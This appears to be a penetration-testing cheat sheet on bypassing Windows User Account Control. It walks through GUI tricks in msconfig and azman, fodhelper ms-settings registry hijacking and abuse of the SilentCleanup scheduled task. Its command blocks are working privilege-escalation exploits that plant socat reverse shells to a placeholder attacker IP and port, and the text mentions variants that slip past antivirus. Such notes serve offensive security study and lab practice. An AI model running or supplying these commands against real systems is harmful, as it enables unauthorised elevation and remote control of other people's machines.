

# Bypassing UAC
## User Account Control
User Account Control (UAC) is a Windows security feature that forces any new process to run in the security context of a non-privileged account by default. 


| Integrity Level | Description |
|:---------------:|:-----------:|
| Low IL | Have the most restrictions, limiting program abiliteis to write to the registry, user profile, and other sensitive areas |
| Medium IL | Assigned to standard users and Administrators' filtered tokens |
| High IL | Used by Administrators' elevated tokens if UAC is enabled |
| System IL | Reserved and used by SYSTEM |

## Automating UAC Bypasses
[UACME](https://github.com/hfiref0x/UACME) is tool for performing automatted UAC bypass:
```
akagi32.exe [Method_Number] [Optional_Command]
```

## GUI Based Bypasses
### Msconfig
`msconfig` (Microsoft System Configuration Utility) tool that helps users troubleshoot and manage how their system starts and runs.

1. Open msconfig (`windows+r msconfig`)
2. Go to `Tools`
3. Launch option `Command Prompt`

||
|:--:| 
| *UAC bypass* |

### Azman
`azman` is the Authorization Manager console. It’s a Microsoft Management Console (MMC) snap-in used to manage role-based access control (RBAC) for applications and services.

1. Open azman (`windows+r azman.msc`)
2. Go to `Help` and click `Help Topics`
3. Right click and chose `View Source`
4. From notepad open `cmd.exe`


||
|:--:| 
| *UAC bypass* |

## Auto-Elevating Processes
Some executables can auto-elevate, achieving High IL without any user intervention. 

For an application, some requirements need to be met to `auto-elevate`:
- The executable must be signed by the `Windows Publisher`
- The executable must be contained in a trusted directory, like `%SystemRoot%/System32`/ or `%ProgramFiles%/`
- Executable files must declare the `autoElevate` element inside their manifests.


[Sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck) tool can be used to check file's manifest.

### Fodhelper 
`fodhelper` (Features on Demand Helper) is responsible for managing Features on Demand (FOD) — optional Windows features that can be installed when needed (like additional language packs, .NET frameworks, handwriting recognition, etc.).

`fodhelper` is trying to open a file under the `ms-settings` `ProgID`. By creating an association for that `ProgID` in the current user's context under `HKCU`, attacker override the default system-wide association and, therefore, control which command will be used to open the file. Since `fodhelper` is an `autoElevate` executable, any subprocess it spawns will inherit a high integrity token.

```
HKEY_LOCAL_MACHINE\Software\Classes  --> System-wide file associations
HKEY_CURRENT_USER\Software\Classes   --> Active user's file associations
```

```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<ATTACKER_IP>:<ATTACKER_PORT> EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

||
|:--:| 
| *UAC bypass* |

There are different [variations](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) of this UAC bypass, which may be undetected by AV. Sometimes translating command from `cmd` to `powershell` may aid exploitation.

## Bypassing Always Notify
If UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. To bypass "Always Notify" attacker can abuse scheduled task that have required permissions - if admin user executes scheduled task, it runs with highest IL without prompting UAC. To check configured UAC level run:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin

0 – Elevate without prompting
1 – Prompt for credentials on secure desktop
2 – Prompt for consent on secure desktop (Always Notify)
3 – Prompt for credentials
4 – Prompt for consent
5 – Prompt for consent for non-Windows binaries
```

Attacker can abuse `DiskCleanup` via modification of environment variable `%windir%`:
```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<ATTACKER_IP>:<ATTACKER_PORT> EXEC:cmd.exe,pipes &REM " /f
schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

||
|:--:| 
| *UAC bypass - Scheduled task settings* |
||
| *UAC bypass - Scheduled task settings* |
||
| *UAC bypass - Scheduled task settings* |


